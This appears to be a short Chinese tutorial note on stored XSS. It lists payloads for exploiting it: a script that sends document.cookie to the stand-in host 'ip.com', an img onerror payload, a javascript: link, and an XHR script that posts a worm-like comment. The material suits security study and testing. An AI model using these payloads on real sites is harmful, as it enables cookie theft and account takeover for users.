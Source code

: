# 储存型 XSS

攻击者输入的数据会先储存在数据库里，在渲染网页的时候恶意数据里的js代码被执行。
相比于反射型 XSS，储存型 XSS 的生命周期更长，危害更大。

## 利用方式

* alert
弹窗

* 窃取 Cookie/localStorage
```html
<script>
  fetch("http://ip.com?cookie="+document.cookie)
</script>
```
`只能读取没有设置 httpOnly 的 Cookie`

* 借助图片
```html
<img src=x onerror=alert(1)>
```

* 借助伪协议
```html
<a href="javascript:alert(1)">click me</a>
```
（需要用户交互）

* 客户端请求伪造 （CSRF）
在无法读取 Cookie 时，可以使用 js 模拟用户发送请求，Cookie 会自己带上
```html
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "/comment");
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({
    page: 3,
    content: "<img src=x onerror=alert(1)>"
  }));
</script>
```

## 参考资料

* [PortSwigger - XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)